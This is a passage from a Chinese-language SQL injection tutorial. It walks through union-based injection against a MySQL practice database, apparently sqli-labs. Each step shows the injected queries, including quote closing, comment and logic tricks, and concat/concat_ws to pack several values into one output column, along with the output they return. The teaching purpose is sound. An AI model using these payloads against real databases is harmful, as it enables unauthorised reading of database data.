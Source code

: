   对于有回显得情况，最直接的就是在回显处注入我们需要的数据像下面这样

  ```mysql
  mysql> select * from users where id='-1'union select version(),database(),user() -- 'limit 0,1;
  +--------+----------+----------------+
  | id     | username | password       |
  +--------+----------+----------------+
  | 5.7.17 | security | root@localhost |
  +--------+----------+----------------+
  1 row in set (0.00 sec)
  ```

  其中要注意：需要使原查询失败（也就是id=-1）；union select的条件（和前查询同数量的列和类型）；闭合sql语句，也就是说id处的单引号和limit前的单引号闭合（这是保证sql语句不能出错，和后面介绍的报错注入有所不同），其中id处的单引号没事好说的单引号配对，双引号配对…，而后面的单引号除了用上面注释的方法（"—+"或者“#”）来忽略掉还可以用下面逻辑注释的方法来注释

  ```mysql
  mysql> select * from users where id='1' and id='2';
  Empty set (0.00 sec)
  #这里的逻辑也可以换为or什么的，也可以写为'2'='2'这种形式
  mysql> select * from users where id='1' and '2';
  +----+----------+----------+
  | id | username | password |
  +----+----------+----------+
  |  1 | Dumb     | Dumb     |
  +----+----------+----------+
  1 row in set (0.00 sec)
  #通过这条语句，可以发现逻辑注释和第一条语句的区别，逻辑的左右是select和'0',而第一条语句是两个id
  mysql> select * from users where id='1' and '0';
  Empty set (0.00 sec)
  ```

  ok来看看如果我们的逻辑注释不是出现在条件（where）中的话会出现什么情况，比如出现在上面的union select中

  ```mysql
  mysql> select * from users where id='-1'union select version(),database(),user()and '1' limit 0,1;
  +--------+----------+----------+
  | id     | username | password |
  +--------+----------+----------+
  | 5.7.17 | security | 0        |
  +--------+----------+----------+
  1 row in set (0.00 sec)
  ```

  发现了把and的两端不再是select和'1'，而是user()和'1'，这样的运算肯定是false了，所以我们最后一条数据就不能显示出来，这也引出了如果返回的输出位有限的话，我们如何去输出超过输出位数据量的数据（或者说我们想要看到最后一位的user()数据），这里也就用到了concat和concat_ws，函数的用法可以help一下，这里不再贴出，看看使用的效果

  ```mysql
  mysql> select * from users where id='-1'union select concat(version(),'~',database(),'~',user()),2,3 and '1' limit 0,1;
  +--------------------------------+----------+----------+
  | id                             | username | password |
  +--------------------------------+----------+----------+
  | 5.7.17~security~root@localhost | 2        | 1        |
  +--------------------------------+----------+----------+
  1 row in set (0.00 sec)

  mysql> select * from users where id='-1'union select concat_ws('~',version(),database(),user()),2,3 and '1' limit 0,1;
  +--------------------------------+----------+----------+
  | id                             | username | password |
  +--------------------------------+----------+----------+
  | 5.7.17~security~root@localhost | 2        | 1        |
  +--------------------------------+----------+----------+
  1 row in set (0.00 sec)
  ```
